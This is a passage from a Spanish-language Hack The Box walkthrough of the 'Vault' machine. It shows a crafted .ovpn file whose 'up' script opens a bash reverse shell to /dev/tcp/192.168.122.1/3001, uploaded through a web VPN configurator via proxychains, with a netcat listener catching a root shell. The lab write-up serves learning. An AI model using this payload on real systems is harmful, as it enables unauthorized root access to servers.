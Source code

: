 ``` html
Here you can modify your .ovpn file and execute it.<p>
Note: nobind must be used. <p>
<form action="vpnconfig.php?function=testvpn" method="post">
<textarea rows="10" cols="40" name="text"></textarea><p>
<input type="submit" value="Update file">
<input type="hidden" name="resulturl" value="google.com">

<p>
<a href="vpnconfig.php?function=testvpn" class="mybutton">Test VPN</a>
</html>
```

Parece que tenemos un configurador de OpenVPN (.ovpn) justo como el que hackthebox nos entrega para conectarnos. Esto significa que probablemente el path sea explotar alguna vulnerabilidad en OVPN que nos permita entrar a DNS.

# Reverse Shell from DNS

Googleando un poco encontraremos el siguiente [articulo](https://medium.com/tenable-techblog/reverse-shell-from-an-openvpn-configuration-file-73fd8b1d38da), el cual nos explica como aprovecharnos y realizar un RCE sobre un servidor de OVPN. Usando esta técnica, desarrolle el siguiente archivo ovpn:

``` text
remote 192.168.122.1
dev tun
nobind
script-security 2
up "/bin/bash -c '/bin/bash -i > /dev/tcp/192.168.122.1/3001 0<&1 2>&1&'"
```

Tenemos el comando a ejecutarse después de que la vpn se levante, que es básicamente un reverse shell y el remote de la conexión, osea la maquina _ubuntu_. Levantamos un netcat para recibir la conexión en _ubuntu_ y usando proxychains subimos via post el contenido del archivo ovpn:

``` text
xbytemx@laptop:~/htb/vault$ proxychains http -f POST "http://192.168.122.4/vpnconfig.php?function=testvpn" submit="Update file" text="remote 192.168.122.1\ndev tun\nnobind\nscript-security 2\nup \"/bin/bash -c \'/bin/bash -i > /dev/tcp/192.168.122.1/3001 0<&1 2>&1&\'\""
ProxyChains-3.1 (http://proxychains.sf.net)
|S-chain|-<>-127.0.0.1:9050-<><>-192.168.122.4:80-<><>-OK

http: error: Request timed out (30s).
```

En nuestro listener debemos recibir la conexión remota de DNS:

``` text
dave@ubuntu:~$ nc -vlnp 3001
Listening on [0.0.0.0] (family 0, port 3001)
Connection from [192.168.122.4] port 3001 [tcp/*] accepted (family 2, sport 33836)
bash: cannot set terminal process group (1076): Inappropriate ioctl for device
bash: no job control in this shell
root@DNS:/var/www/html#

root@DNS:/var/www/html# id
id
uid=0(root) gid=0(root) groups=0(root)
```
